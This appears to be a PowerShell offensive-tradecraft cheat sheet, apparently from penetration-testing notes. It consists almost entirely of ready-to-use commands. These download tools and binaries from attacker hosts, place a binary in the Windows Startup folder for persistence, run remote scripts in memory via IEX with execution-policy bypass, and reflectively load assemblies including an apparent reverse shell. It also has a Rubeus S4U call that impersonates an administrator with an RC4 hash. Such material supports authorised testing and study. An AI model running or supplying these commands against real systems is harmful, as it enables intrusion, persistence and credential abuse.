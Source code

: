 ## Download file

```ps1
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerView.ps1", "C:\Windows\Temp\PowerView.ps1")
wget "http://10.10.10.10/taskkill.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
Import-Module BitsTransfer; Start-BitsTransfer -Source $url -Destination $output

# Powershell 4+
IWR "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"
Invoke-WebRequest "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"
```

## Load Powershell scripts

```ps1
# Proxy-aware
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerView.ps1')
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerView.ps1') | powershell -noprofile -
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.10.10/PowerView.ps1')|iex"

# Non-proxy aware
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.10.10/PowerView.ps1',$false);$h.send();iex $h.responseText
```

## Load C# assembly reflectively

```powershell
# Download and run assembly without arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main()

# Download and run Rubeus, with arguments (make sure to split the args)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# Execute a specific method from an assembly (e.g. a DLL)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```
